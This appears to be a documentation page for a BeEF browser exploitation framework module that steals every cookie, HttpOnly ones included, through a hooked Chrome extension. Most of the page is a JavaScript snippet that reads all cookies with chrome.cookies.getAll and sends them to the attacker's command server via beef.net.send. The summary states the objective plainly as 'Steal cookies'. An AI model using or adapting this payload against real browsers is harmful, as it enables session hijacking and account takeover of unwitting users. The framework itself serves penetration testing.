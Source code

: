 ## Summary

* **Objective**: Steal cookies
* **Authors**: mh
* **Browsers**: Chrome

* [Code](https://github.com/beefproject/beef/tree/master/modules/chrome_extensions/get_all_cookies)

## Internal Working

steals all (even HttpOnly) cookies, providing the hooked extension has cookies access.

Note:
Needs to have installed a Chrome extension with a beef hook / somehow hook a Chrome extension first for this to work.


```js

if (the_url != 'default_all') {
    chrome.cookies.getAll({url:the_url}, function(cookies){
        beef.net.send('<%= @command_url %>', <%= @command_id %>, 'cookies: ' + JSON.stringify(cookies));
    })
} else {
        chrome.cookies.getAll({}, function(cookies){
        beef.net.send('<%= @command_url %>', <%= @command_id %>, 'cookies: ' + JSON.stringify(cookies));
})
```

## Feedback


